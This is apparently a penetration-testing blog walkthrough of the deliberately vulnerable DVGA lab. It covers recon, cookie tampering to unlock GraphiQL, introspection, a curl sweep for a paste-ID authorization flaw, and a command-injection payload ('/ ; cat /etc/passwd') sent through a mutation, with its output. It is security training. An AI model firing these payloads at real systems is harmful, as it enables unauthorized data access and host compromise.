




# Attacking a GraphQL API: Working Through DVGA Step by Step

> **Scope note:** Everything in this post is run against the Damn Vulnerable GraphQL Application (DVGA) — an intentionally vulnerable GraphQL app published specifically so people can practice these techniques safely in their own lab. If you want to follow along, spin up DVGA locally (it ships as a Docker container) and point everything at your own VM, never at infrastructure you don't own or have explicit written authorization to test. The command injection vulnerability near the end of this post gives root-level code execution — treat it with the same care you'd give any live exploit, even in a lab.

I've been testing REST APIs for most of this series, and REST has a certain predictability to it: different endpoints for different resources, HTTP verbs that map cleanly to CRUD operations, status codes that actually mean something. GraphQL throws most of that out the window, and the first time I pointed my usual REST testing habits at a GraphQL target, I remember feeling a little lost. So in this post I want to walk through exactly how I adapted — using DVGA as the lab target — from first recon all the way to getting command execution on the box.

## Why GraphQL Feels Different

The biggest mental shift when moving from REST to GraphQL is realizing GraphQL behaves more like a query language than a web API. It's closer to writing SQL than it is to calling `GET /api/products/42`. Every single request — read or write — goes to the *same* endpoint, almost always as a `POST`, and the actual intent of the request lives entirely in the body.



A couple of things fall out of that single-endpoint design that change how I test:

- **No endpoint enumeration.** There's nothing to directory-brute-force in the usual REST sense once you've found the one GraphQL endpoint — instead, you're enumerating *operations* inside that endpoint.
- **CRUD becomes query/mutation.** Reads happen through `query`, writes happen through `mutation`, and there's a third type, `subscription`, for real-time push updates I won't be using here.
- **Almost everything returns `200 OK`.** This one bit me early on. A GraphQL server will frequently respond with a `200` even when the query failed outright, burying the actual error inside the JSON response body instead of in the status code. That means my usual habit of filtering Burp results by status code stops working, and I have to start paying much closer attention to response *content* and *length* instead.

Here's what a basic GraphQL query and its response look like, side by side:

```graphql
query products (price: "10.00") {
  name
  price
}
```

```json
{
  "data": {
    "products": [
      { "name": "Seat", "price": "10.00" },
      { "name": "Wheel", "price": "10.00" }
    ]
  }
}
```

It's the same JSON-over-HTTP transport REST uses, but the request *is* the query language, arguments and all.

## Setting Up the Target

For this walkthrough I'm running DVGA locally. If you haven't set it up yet, the project ships a Docker image — a few minutes with `docker run` gets you a fully vulnerable GraphQL app listening on port 5000.

## Active Reconnaissance

With the target up, I start the way I'd start any engagement: a service scan to confirm what's actually running.

```bash
$ nmap -sC -sV 192.168.195.132
```

```text
Starting Nmap 7.91 ( https://nmap.org )
Nmap scan report for 192.168.195.132
Host is up (0.00046s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE VERSION
5000/tcp open  http    Werkzeug httpd 1.0.1 (Python 3.7.12)
|_http-server-header: Werkzeug/1.0.1 Python/3.7.12
|_http-title: Damn Vulnerable GraphQL Application
```

The `http-title` line gives it away immediately here, which is a lab-environment convenience — real targets almost never announce themselves this plainly, so don't expect that shortcut in the field. Next I run a quick Nikto pass against the same port to flag any obvious misconfigurations:

```bash
$ nikto -h 192.168.195.132:5000
```

```text
+ Server: Werkzeug/1.0.1 Python/3.7.12
+ Cookie env created without the httponly flag
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined.
+ The X-Content-Type-Options header is not set.
+ Allowed HTTP Methods: OPTIONS, HEAD, GET
+ 7918 requests: 0 error(s) and 6 item(s) reported on remote host
```

Nothing earth-shattering, but worth noting: a handful of missing security headers, and — more interesting to me — a cookie called `env` that's created without the `HttpOnly` flag, which means I can read and modify it from client-side JavaScript or dev tools. I file that away; it turns out to matter a lot in a few minutes.

> **Note:** Nikto didn't surface any interesting directories here, which is my cue to stop scanning blindly and go look at the application like a real user would. Automated scanners find the obvious stuff; manual exploration finds the stuff worth attacking.

## Exploring the App Like a User First

Before I touch any tooling again, I click through DVGA in the browser the way an ordinary visitor would — Public Pastes, Private Pastes, Create Paste, Import Paste, Upload Paste. This step matters more than it sounds like it should. Just browsing around surfaces usernames, forum posts containing IP addresses and user-agent strings, a file upload feature, and a paste-creation flow — all useful context before I start attacking anything.

Then I open the browser's DevTools Network panel and reload. Looking through the response headers for the home page, I spot this:

```text
Set-Cookie: env=graphiql:disable
```

That's confirmation this app ships a GraphQL IDE (GraphiQL) that's currently turned off via cookie. I keep browsing to the Public Pastes page and reload DevTools again — this time there's a new resource in the request list named `graphql`, and its response preview is JSON. That's about as clear a GraphQL fingerprint as you'll ever get.

## Finding the GraphQL Endpoint

GraphQL's single-endpoint design means directory brute-forcing looks a little different than it does for REST — I'm not hunting for dozens of resource paths, just the handful of conventional names providers tend to use for the endpoint itself and any IDE sitting on top of it:

| Path pattern | What it usually is |
|---|---|
| `/graphql`, `/v1/graphql`, `/api/graphql` | The GraphQL endpoint itself |
| `/graphiql`, `/v1/graphiql` | GraphiQL IDE |
| `/console`, `/query` | Alternative endpoint naming |
| `/altair` | Altair Client IDE |
| `/playground` | GraphQL Playground IDE |

I run Kiterunner against DVGA with a GraphQL-specific wordlist from SecLists:

```bash
$ kr brute http://192.168.195.132:5000 \
    -w /usr/share/seclists/Discovery/Web-Content/graphql.txt
```

```text
GET 400 [  53,   4,   1] http://192.168.195.132:5000/graphiql
GET 400 [  53,   4,   1] http://192.168.195.132:5000/graphql
5:50PM INF scan complete duration=716.265267 results=2
```

Two hits, both returning `400 Bad Request` on their own — not very informative on the surface, but confirming both paths exist. Checking `/graphql` directly in the browser returns a small JSON error: `"Must provide query string."` — useful, because it tells me the endpoint is alive and simply wants a properly formed POST body. `/graphiql` returns `400 Bad Request: GraphiQL Access Rejected`, which looks like the IDE is deliberately locked down — and that `env` cookie from earlier is my prime suspect for why.



## Cookie Tampering to Unlock GraphiQL

Time to confirm that theory. I turn on Burp's proxy, point the browser through FoxyProxy, and reload `/graphiql` to capture the request:

```text
GET /graphiql HTTP/1.1
Host: 192.168.195.132:5000
Cookie: language=en; welcomebanner_status=dismiss;
  session=eyJkaWZmaWN1bHR5IjoiZWFzeSJ9.YWOfOA.NYaXtJpmkjytRazPrLj5GKg-Os;
  env=Z3JhcGhpcWw6ZGlzYWJsZQ==
Upgrade-Insecure-Requests: 1
```

The `env` value is base64. I drop `Z3JhcGhpcWw6ZGlzYWJsZQ==` into Burp's Decoder and decode it:

```bash
$ echo "Z3JhcGhpcWw6ZGlzYWJsZQ==" | base64 -d
```

```text
graphiql:disable
```

Exactly what the `Set-Cookie` header told me earlier. I flip it to `graphiql:enable` and re-encode:

```bash
$ echo -n "graphiql:enable" | base64
```

```text
Z3JhcGhpcWw6ZW5hYmxl
```

I test the new value in Burp Repeater first to confirm the response changes, then open DevTools' Storage panel in the browser, find the `env` cookie, and replace its value with `Z3JhcGhpcWw6ZW5hYmxl`. Reloading `/graphiql` now gives me the full IDE — query editor, response pane, and a working Documentation Explorer.

> **Caution:** This is textbook client-side trust — the server is taking the browser's word for whether it's allowed to use a debugging feature. It's a great example of why access control decisions have to be enforced server-side, not inferred from a value the client can edit in two clicks of DevTools.

## Reverse Engineering Requests

With GraphiQL unlocked, my next move is to proxy traffic through Postman instead of Burp and just *use* the application — every link, every form, every feature. GraphQL's single-endpoint design means every captured request looks nearly identical at a glance (same URL, same method), so the only way to tell them apart is reading the request body and renaming each one based on what it actually does.

One of the trickier bodies I capture starts like this:

```text
POST http://192.168.195.132:5000/graphiql?
{"query":"\n query IntrospectionQuery {\n __schema {\n
queryType { name }\n mutationType { name }\n
subscriptionType { name }\n ...
```

That's enough of a fingerprint to name it something like *GraphiQL Query Introspection — SubscriptionType* and move on. A near-identical request swaps `subscriptionType` for `types`, so I name that one accordingly. It's tedious, but by the end I've got a labeled Postman collection I can actually navigate.

### Pulling the Full Schema via Introspection

That `IntrospectionQuery` I kept bumping into is actually one of the most useful things in this whole chapter. **Introspection** is a built-in GraphQL feature that lets a consumer ask the API to describe its own schema — every type, every field, every argument, every mutation. When it's left enabled (which it is on DVGA, and depressingly often in production too), it's the equivalent of finding a REST API's full OpenAPI spec sitting out in the open.

GraphiQL actually fires this query automatically the moment you open the Documentation Explorer panel — which is exactly how I captured it in the first place. The full query is long, but the shape of it is:

```graphql
query IntrospectionQuery {
  __schema {
    queryType { name }
    mutationType { name }
    subscriptionType { name }
    types {
      ...FullType
    }
    directives {
      name
      description
      locations
      args { ...InputValue }
    }
  }
}
```

A successful response hands back the entire schema — every queryable type and every mutation available on the API. When introspection is open like this, it turns the rest of the engagement from "guess what fields might exist" into "read the menu."

> **Note:** In the real world, expect introspection to be disabled on most production GraphQL APIs precisely because of how much it gives away. When it's off, you're back to the slower process of reverse-engineering requests from captured traffic, the way I did in the previous section.

## Crafting Requests with the Documentation Explorer

With the schema visible, I use GraphiQL's Documentation Explorer to build a clean query for the Public Pastes feature. Under Root Types → Query, I find `pastes`, add the `public: true` argument, and pick a few fields off `PasteObject` to return:

```graphql
query {
  pastes (public: true) {
    title
    content
    public
    ipAddr
    pId
  }
}
```

Executing it (Ctrl+Enter) returns:

```json
{
  "data": {
    "pastes": [
      { "content": "testy", "ipAddr": "192.168.195.133", "pId": "166" },
      { "content": "McTester", "ipAddr": "192.168.195.133", "pId": "165" }
    ]
  }
}
```

## When There's No GraphiQL: The InQL Burp Extension

Not every target hands you a conveniently unlocked IDE. For those cases, the **InQL** Burp Suite extension does a lot of the same work from inside Burp itself — point its scanner at a GraphQL endpoint and it automatically discovers available queries and mutations, saving them into a navigable collection you can send straight to Repeater.



## Finding a BOLA in the Paste ID

Inside InQL's discovered queries is `paste.query`, which fetches a single paste by its `pId`. I noticed earlier that pId values are small sequential integers — `166`, `165`, and so on — which is always worth a second look. Sequential, predictable identifiers are a classic setup for a **Broken Object Level Authorization (BOLA)** bug: can I request a paste ID that isn't mine and get data back anyway?

I send the `paste.query` request to Repeater and swap in `166`, a pId I know is one of my own public pastes:

```json
{
  "data": {
    "paste": {
      "pId": "166",
      "title": "test3",
      "content": "testy",
      "ipAddr": "192.168.195.133",
      "public": true
    }
  }
}
```

Works as expected. Now the real test: send the same request to Intruder, mark the `pId` value as the payload position, and sweep through `0`–`166`:

```bash
# Conceptually equivalent sweep with curl, for reference:
$ for id in $(seq 0 166); do
    curl -s -X POST http://192.168.195.132:5000/graphql \
      -H "Content-Type: application/json" \
      -d "{\"query\":\"query{paste(pId:\\\"$id\\\"){pId title content public ipAddr}}\"}" \
      | grep -q '"public":false' && echo "pId $id is PRIVATE and readable"
  done
```

Sure enough, several IDs come back with `"public": false` — pastes that were never meant to be visible to me:

```json
{
  "data": {
    "paste": {
      "pId": "63",
      "title": "Imported Paste from URL - b9ae5f",
      "content": "<!DOCTYPE html>\n<html lang=en> ...",
      "ipAddr": "192.168.195.133",
      "public": false
    }
  }
}
```

That `"public": false` field confirms it: there's no server-side check stopping me from reading any paste on the system just by guessing its ID. That's a textbook BOLA — one of the most common and most damaging vulnerability classes across both REST and GraphQL APIs, because it usually means you can read (or write) data belonging to every other user, not just your own.

## Fuzzing a Mutation for Command Injection

Queries are effectively read-only, so for anything with real impact I want to turn my attention to **mutations** — the GraphQL equivalent of write operations. DVGA's `ImportPaste` mutation fetches content from a remote URL and stores it as a paste, which makes it an interesting candidate: anything that reaches out and fetches a URL on the server's behalf is worth testing for injection.

A baseline request against it looks like this:

```json
{
  "query": "mutation ImportPaste ($host: String!, $port: Int!, $path: String!, $scheme: String!) {\n importPaste(host: $host, port: $port, path: $path, scheme: $scheme) {\n result\n }\n }",
  "variables": { "host": "google.com", "port": 80, "path": "/", "scheme": "http" }
}
```

That `variables` block at the bottom is exactly where user input flows into the backend — and exactly where I want to put my fuzzing payload positions, since GraphQL arguments are prime injection targets when the backend doesn't validate them carefully.

I send this to Intruder, put payload markers around the `host` value first:

```text
"variables": {"host":"google.com§test§§test2§","port":80,"path":"/","scheme":"http"}
```

...with a quick metacharacter set as one payload list:

```text
|  ||  &  &&  '  "  ;  '"
```

and a small set of injection probes as the other:

```text
whoami
{"$where": "sleep(1000)"}
;%00
-- -
```

Sweeping the `host` variable comes back completely flat — identical status codes, identical response lengths across every payload. Nothing interesting there. So I move the payload markers to the `path` variable instead:

```text
"variables": {"host":"google.com","port":80,"path":"/§test§§test2§","scheme":"http"}
```

This time the results aren't uniform at all — different response lengths, different content, and a few responses that clearly echo back the output of `whoami`. That's the tell: the `path` variable is being handed to a shell somewhere on the backend without proper sanitization.



The command ran as `root`, which also tells me the host OS is Linux. From here I build a more deliberate request, chaining a second command onto the path with a semicolon:

```json
{
  "variables": {
    "scheme": "http",
    "path": "/ ; cat /etc/passwd",
    "port": 80,
    "host": "test.com"
  },
  "query": "mutation ImportPaste ($host: String!, $port: Int!, $path: String!, $scheme: String!) {\n importPaste(host: $host, port: $port, path: $path, scheme: $scheme) {\n result\n }\n }"
}
```

```bash
$ curl -s -X POST http://192.168.195.132:5000/graphql \
    -H "Content-Type: application/json" \
    -d '{"variables":{"scheme":"http","path":"/ ; cat /etc/passwd","port":80,"host":"test.com"},"query":"mutation ImportPaste ($host: String!, $port: Int!, $path: String!, $scheme: String!) {\n importPaste(host: $host, port: $port, path: $path, scheme: $scheme) {\n result\n }\n }"}'
```

```text
HTTP/1.0 200 OK
Content-Type: application/json
Content-Length: 1516

{"data":{"importPaste":{"result":"... <redirect HTML> ...
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
...
nobody:x:65534:65534:nobody:/:/sbin/nologin
"}}}
```

The `/etc/passwd` contents come straight back in the response body. At this point I have confirmed, root-level OS command injection through a GraphQL mutation — arguably the most serious class of finding you can walk away from an API test with, since it's a direct path to full host compromise.

> **Caution:** This is remote code execution as root. In a lab like DVGA that's the whole point — go ahead and explore further, pivot to a reverse shell, enumerate the filesystem. Against a real client engagement, this is the point where you stop, document everything precisely (request, response, timestamp), and report it immediately rather than continuing to poke at a production system with root access you were never supposed to have.

## What Changed, and What Didn't

Looking back at this whole walkthrough, almost none of the *underlying* skills were new — BOLA testing, fuzzing with metacharacters, reading response bodies for anomalies, all of that carried straight over from REST testing. What changed was *where* to apply them:

| REST API habit | GraphQL equivalent |
|---|---|
| Enumerate endpoints | Enumerate operations within one endpoint |
| Trust HTTP status codes | Read the response body — 200 often hides errors |
| Find a Swagger/OpenAPI spec | Run an introspection query |
| Fuzz path/query parameters | Fuzz the `variables` block |
| IDOR via path or query param | BOLA via a field argument like `pId` |

## A Quick Reference

| Goal | Tool / command |
|---|---|
| Fingerprint the service | `nmap -sC -sV <target>` |
| Scan for misconfigurations | `nikto -h <target>:<port>` |
| Find the GraphQL endpoint | `kr brute <url> -w graphql.txt` (Kiterunner) |
| Decode/encode a cookie value | Burp Decoder, or `base64 -d` / `base64` |
| Discover schema | Capture or send an `IntrospectionQuery` |
| Auto-discover ops without GraphiQL | InQL Burp extension |
| Test for BOLA | Sweep an ID-like argument (`pId`) through Intruder |
| Fuzz mutation variables | Payload positions inside the `variables` block |

## Wrapping Up

GraphQL felt unfamiliar for about the first hour, and then it didn't. The core idea driving this whole post is that GraphQL isn't a different *kind* of vulnerability surface — it's REST's same vulnerability classes (broken authorization, missing input validation, information disclosure) wearing a different transport format. Once you internalize that every request goes to one endpoint, that errors hide in `200` responses, and that introspection is your schema discovery tool, the rest of your REST testing instincts transfer over almost unchanged.

DVGA has quite a few more intentional vulnerabilities than what I covered here — injection in other mutations, batching abuse, and more. If you're working through this lab yourself, it's worth going back and finding the rest on your own before moving on to testing GraphQL in the real world, where introspection is usually locked down and you'll need to lean much more heavily on the reverse-engineering-from-traffic approach I covered earlier in this post.
